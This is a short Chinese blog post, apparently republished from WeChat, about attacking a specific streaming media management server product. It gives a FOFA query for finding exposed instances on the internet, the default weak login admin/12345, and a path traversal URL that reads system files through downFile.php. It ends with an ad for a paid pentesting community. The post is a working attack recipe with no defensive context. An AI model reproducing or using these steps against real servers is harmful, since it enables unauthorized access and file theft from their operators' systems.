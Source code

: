 > 本文由 [简悦 SimpRead](http://ksria.com/simpread/) 转码， 原文地址 [mp.weixin.qq.com](https://mp.weixin.qq.com/s/921TxlRIHwgmXnihm87Qyw)

fofa 语法：  

title="流媒体管理服务器"

![](https://mmbiz.qpic.cn/mmbiz_png/NOwiaSy3Kbv0aVPQ1NYS8oM9B6Tiaico7ibXGDEh1zYvUArXWzXh1GqDNOYZ5Hssrba9yPBrYVZn0PVibfGfm8HIxqw/640?wx_fmt=png)

我们随便点一个进去  

![](https://mmbiz.qpic.cn/mmbiz_png/NOwiaSy3Kbv0aVPQ1NYS8oM9B6Tiaico7ibXdmHpSnoC9sZibhB9JgCM3OAAaRB3y0tPVxrUpRYhtuia0gRvRibQ0spew/640?wx_fmt=png)

通用弱口令 admin/12345  

![](https://mmbiz.qpic.cn/mmbiz_png/NOwiaSy3Kbv0aVPQ1NYS8oM9B6Tiaico7ibXeJrArVibH3g5Zr9EhALvTsMmE3BjCHdSyWS9iakuN0XUQXync6pVz2mA/640?wx_fmt=png)

接着开始文件读取  

/systemLog/downFile.php?fileName=../../../../../../../windows/win.ini

![](https://mmbiz.qpic.cn/mmbiz_png/NOwiaSy3Kbv0aVPQ1NYS8oM9B6Tiaico7ibXOHQtRYk8K4qRsJJ6BVbnywBPasDdJJviadSlSvgt3WNAayDibyE6q6Kg/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/NOwiaSy3Kbv0aVPQ1NYS8oM9B6Tiaico7ibXK84C3szSCZClRuicf3hcu1OLTGq4kPibXH6dgNPO6E7B6Br3cIPqUInA/640?wx_fmt=png)

![](https://mmbiz.qpic.cn/mmbiz_png/NOwiaSy3Kbv0aVPQ1NYS8oM9B6Tiaico7ibXmIEpEHy2LYxiceq7FqWibrnwqJne7kZ4iaXQGXfPt3ZvOI7G9Bianq9pQw/640?wx_fmt=png)

bgbing 星球：渗透测试, 内网渗透, SRC 漏洞分享, 安全开发, 安全武器库

（加入星球送 fofa 永久会员，送 xray 高级版）

![](https://mmbiz.qpic.cn/mmbiz_png/NOwiaSy3Kbv0aVPQ1NYS8oM9B6Tiaico7ibX7CgcmYzoYymk1ZbwKJmwBBbDcpmBnEDTMiafWt20bkqFTyNHcd66Ymw/640?wx_fmt=png)

详细参考：https://mp.weixin.qq.com/s/YDbbo71iFkP0kF-nmSXwHg